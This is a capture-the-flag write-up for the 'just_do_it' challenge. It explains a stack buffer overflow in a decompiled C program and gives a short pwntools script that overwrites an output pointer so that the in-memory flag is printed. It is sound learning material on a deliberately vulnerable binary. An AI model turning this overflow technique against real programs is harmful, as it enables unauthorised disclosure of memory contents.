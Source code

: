 At first this challenge seemed a lot harder than the last few ones for me to understand, but after some research I found out I was just greatly overcomplicating things. The bad part about knowing multiple languages on a surface level and not deepening our knowledge in some of them is that sometimes we just think something is way harder than it is for no other reason than thinking that `x` language functions the same as `y` language.

For example, in the last years I mostly worked with`Javascript/Typescript `and some ``Python`` as my main languages, so when coming back to ``C (and affiliates)``, I seem to always forget that functions don't usually return the data that I expect, only if it was successful or not :P. So when looking at all the `fgets` and assuming that the flag was being read and then overwritten, by our input instead of understanding that the flag was being saved in the first parameter specified in `fgets` really made this a lot harder than it needed to be for me.

```
undefined4 main(void)

{
  char *input;
  int iVar1;
  char vulnerableBuffer [16];
  FILE *flagFile;
  char *output;
  undefined *local_c;
  
  local_c = &stack0x00000004;
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  output = "Invalid Password, Try Again!";
  flagFile = fopen("flag.txt","r");
  if (flagFile == (FILE *)0x0) {
    perror("file open error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  input = fgets(flag,0x30,flagFile);
  if (input == (char *)0x0) {
    perror("file read error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  input = fgets(vulnerableBuffer,0x20,stdin);
  if (input == (char *)0x0) {
    perror("input error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  iVar1 = strcmp(vulnerableBuffer,"P@SSW0RD");
  if (iVar1 == 0) {
    output = "Correct Password, Welcome!";
  }
  puts(output);
  return 0;
}
```

After a while, and after reading the official Nightmare writeup and still being confused after my mistake, I realized  what I was doing wrong and was able to solve by myself.

The program starts off by reading the flag into memory, and then asks us if we know the correct password, and prints some output to us. (as we can see above, the password is hardcoded so that part is no sweat in our end). The bug we're exploiting here lies in the `fgets` that is supposed to read our password. Whilst our password buffer is only `0x16` bytes, the `fgets` lets us write `0x20` into it, letting us overflow into other variables. 

```
undefined main(undefined1 param_1)
	undefined         AL:1           <RETURN>
	undefined1        Stack[0x4]:1   param_1
	undefined4        EAX:4          input
	undefined4        Stack[0x0]:4   local_res0
	undefined4        Stack[-0xc]:4  local_c
	undefined4        Stack[-0x14]:4 output
	undefined4        Stack[-0x18]:4 flagFile
	undefined1[16]    Stack[-0x28]   vulnerableBuffer
```

As we can see from the stack layout, se can get into the `output` variable with this overflow (`0x28 - 0x14 = 0x14` and `0x20 > 0x14`), so we can just point the output variable, which is a `char *` into the address in which flag was written to in memory, therefore leaking the flag instead of receiving our congratulations for our correct password :D! 

So writing this logic up in a little python script we get:

```
from pwn import *

elf = process('./just_do_it')
context.log_level = "DEBUG"

payload = b"A" * 0x14 + p32(0x0804a080)

elf.sendline(payload)
```